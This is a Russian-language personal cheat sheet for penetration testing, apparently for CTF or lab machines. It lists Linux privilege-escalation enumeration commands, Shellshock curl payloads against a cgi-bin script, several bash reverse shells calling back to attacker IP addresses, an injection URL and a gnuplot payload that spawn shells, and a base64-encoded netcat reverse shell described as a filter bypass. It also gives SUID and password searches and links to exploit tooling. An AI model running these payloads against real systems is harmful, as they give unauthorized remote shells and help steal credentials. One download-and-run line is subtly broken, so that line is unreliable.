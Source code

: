 # открыть gui 
open .


Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-

       сетевые интерфейсы, порты, службы;
       netstat
            
       ss -tulpn

        процессы
        ps aux
        
        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null



https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения

реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm


/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# Найти строки из всех файлов где есть passw

cat * | grep -i passw*

grep -r "passw".

grep -rni 'enter_network' (поиск везде от текущей)

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;

find / -user root -perm -u=s -type f 2>/dev/null

find / -perm -u=s 2>/dev/null

# Найти все сетевые соежинения 

 ss -tulpn
